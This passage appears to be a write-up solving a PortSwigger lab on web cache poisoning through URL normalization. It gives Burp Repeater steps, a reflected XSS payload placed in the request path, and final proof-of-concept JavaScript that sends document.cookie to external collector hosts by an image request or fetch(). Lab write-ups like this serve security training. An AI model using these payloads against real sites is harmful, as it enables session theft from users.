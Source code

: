 callback=alert(1)

## URL normalization
Reference: https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-normalization


### Solution
1. In Burp Repeater, browse to any non-existent path, such as ``GET /random``. Notice that the path you requested is reflected in the error message.
2. Add a suitable reflected XSS payload to the request line:
```
GET /random</p><script>alert(1)</script><p>foo
```
3. Notice that if you request this URL in your browser, the payload doesn't execute because it is URL-encoded.
4. In Burp Repeater, poison the cache with your payload and then immediately load the URL in your browser. This time, the ``alert()`` is executed because your browser's encoded payload was URL-decoded by the cache, causing a cache hit with the earlier request.
5. Re-poison the cache then immediately go to the lab and click "Deliver link to victim". Submit your malicious URL. The lab will be solved when the victim visits the link.

FINAL PoC:
```js
document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```
OR:
fetch.
example:
```js
fetch("https://exploit-0a9500a3042462a980280cb1019e008f.exploit-server.net/?c="+document['cookie'])
```

